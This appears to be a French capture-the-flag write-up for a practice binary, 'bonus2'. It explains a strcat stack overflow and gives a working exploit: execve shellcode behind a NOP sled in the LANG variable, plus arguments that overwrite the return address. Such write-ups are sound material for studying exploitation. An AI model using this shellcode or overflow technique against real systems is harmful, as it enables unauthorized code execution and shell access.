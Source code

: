# Readme: Exploitation de bonus2

## Configuration initiale
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```
- Pas de protection RELRO
- Pas de canary sur la pile
- NX désactivé (la pile est exécutable)
- Pas de PIE (les adresses sont prévisibles)

## Code décompilé

```c
int greetuser(char *user)
{
  char greeting[64];
  
  switch (language)
  {
    case 1:
      strcpy(greeting, "Hyvää päivää ");
      break;
    case 2:
      strcpy(greeting, "Goedemiddag! ");
      break;
    default:
      strcpy(greeting, "Hello ");
  }
  
  strcat(greeting, user);
  return puts(greeting);
}

int main(int argc, char **argv)
{
  char *lang;
  char dest[76];
  
  if (argc != 3)
    return 1;
  
  memset(dest, 0, sizeof(dest));
  strncpy(dest, argv[1], 40);
  strncpy(dest + 40, argv[2], 32);
  
  lang = getenv("LANG");
  if (lang)
  {
    if (memcmp(lang, "fi", 2) == 0)
      language = 1;
    else if (memcmp(lang, "nl", 2) == 0)
      language = 2;
  }
  
  greetuser(dest);
  return 0;
}
```

## Analyse du code

1. `main` prend deux arguments et les copie dans `dest`:
   - Premier argument: jusqu'à 40 caractères
   - Deuxième argument: jusqu'à 32 caractères

2. La variable d'environnement `LANG` est vérifiée pour définir `language`:
   - "fi" pour finnois (1)
   - "nl" pour néerlandais (2)
   - Par défaut (0)

3. `greetuser` utilise un buffer de 64 octets pour le message de salutation.

4. La vulnérabilité se trouve dans `strcat(greeting, user)` dans `greetuser`:
   - `greeting` peut contenir jusqu'à 64 octets
   - `user` peut contenir jusqu'à 72 octets (40 + 32 du `main`)
   - Cela peut provoquer un débordement de tampon

## Stratégie d'exploitation révisée

1. Utiliser la variable d'environnement `LANG` pour stocker notre shellcode.
2. Définir `LANG` pour commencer par "fi" afin de déclencher le cas finnois dans `greetuser`.
3. Remplir le premier argument avec 40 caractères.
4. Utiliser le second argument pour écraser l'adresse de retour et la faire pointer vers notre shellcode dans `LANG`.

## Commande d'exploitation corrigée

```bash
export LANG=$(python -c 'print "fi" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xc9\xfe\xff\xbf"')
```

## Explication détaillée

1. Configuration de LANG :
   - Commence par "fi" pour déclencher le cas finnois.
   - Suivi d'un NOP sled de 100 octets (\x90).
   - Se termine par le shellcode qui exécute /bin/sh.

2. Premier argument :
   - 40 "A" pour remplir complètement la première partie du buffer dans `main`.

3. Deuxième argument :
   - 18 "B" pour le padding.
   - Adresse de retour (\xc9\xfe\xff\xbf) qui pointe vers le NOP sled dans LANG.

4. Fonctionnement :
   - Le buffer dans `greetuser` est rempli avec "Hyvää päivää " (15 caractères) + 40 "A" + 18 "B".
   - L'adresse de retour est écrasée pour pointer vers le NOP sled dans LANG.
   - Lors du retour, l'exécution "glisse" le long du NOP sled jusqu'au shellcode.

5. Trouver l'adresse correcte :
   - Utilisez `gdb` pour examiner l'adresse de LANG : `x/s *((char **)environ)`
   - Ajustez l'adresse pour pointer vers le milieu du NOP sled.

Cette méthode est plus robuste car :
- Elle utilise la variable d'environnement pour stocker un grand shellcode.
- Le NOP sled augmente les chances de succès même si l'adresse varie légèrement.
- Elle contourne les limitations de taille dans les arguments du programme.

N'oubliez pas que l'adresse exacte peut varier selon l'environnement, nécessitant parfois de petits ajustements.